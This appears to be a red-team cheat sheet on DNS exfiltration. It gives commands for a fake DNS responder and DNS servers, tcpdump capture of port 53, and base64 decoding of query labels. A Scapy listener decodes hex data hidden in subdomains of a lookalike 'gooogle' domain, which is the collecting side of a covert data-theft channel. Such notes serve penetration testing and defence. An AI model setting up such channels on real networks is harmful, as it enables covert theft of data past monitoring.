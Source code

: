 # DNS

## 01 - [[DNSChef]]

```
$ sudo dnschef --fakedomains <domain>.<tld> --fakeip 127.0.0.1 --interface 0.0.0.0 --logfile dnschef.log
```

## 02 - BIND9

```
$ sudo apt -y install bind9
```

## 03 - Dnsmasq

```
$ sudo apt install dnsmasq
```

## 04 - TCPDump

Monitor port 53

```
$ sudo tcpdump -i <interface> udp port 53
```

Decode results

```
$ echo "<base64_encoded>" | cut -d "." -f1-8 | tr -d "." | base64 -d
```

## 05 - Python Script

```python
try:
	from scapy.all import *
except:
	print("Scapy not found, please install scapy: pip install scapy")

def process_packet(packet):
	if packet.haslayer(DNS):
		domain = packet[DNS][DNSQR].qname.decode('utf-8')
		root_domain = domain.split('.')[1]
		if root_domain.startswith('gooogle'):
			print(f'{bytearray.fromhex(domain[:-13]).decode("utf-8")}', flush=True, end="", sep="")

sniff(iface="eth0", prn=process_packet)
```

---
## References

### ExploitDB

- [ExploitDB: File Transfer Skills in the Red Team Post Penetration Test](https://www.exploit-db.com/docs/english/46515-file-transfer-skills-in-the-red-team-post-penetration-test.pdf)

### Offensive Security

- [Staged Payloads from Kali Linux | PT Phone Home - DNS](https://www.offsec.com/offsec/staged-payloads-from-kalki-linux-pt-phone-hone-dns/)

### FoxGlove Security

- [FoxGlove Security: Downloading Files Through Recursive DNS With Bash (Or PowerShell)](https://breenmachine.blogspot.com/2014/03/downloading-files-through-recursive-dns.html)

### NotSoSecure

- [NotSoSecure: Out of Band Exploitation (OOB) CheatSheet](https://notsosecure.com/out-band-exploitation-oob-cheatsheet)

### hinty

- [hinty: DNS exfiltration of data: step-by-step simple guide](https://hinty.io/devforth/dns-exfiltration-of-data-step-by-step-simple-guide/)

### John Woodman

- [John Woodman: Setting Up Your Own Malicious DNS Server For Data Exfiltration (Without a DNS Server)](https://john-woodman.com/research/dns-exfiltration-setup/)

### Takshil Patil

- [Takshil Patil: Deploy Self hosted interactsh-server for Blind & Out of Band Testing](https://takshilp.medium.com/oob-blind-testing-using-dns-exfiltration-54bcc004a0fb)

### The Contractor

- [The Contractor: Data-Bouncing - The art of indirect exfiltration.](https://thecontractor.io/data-bouncing/)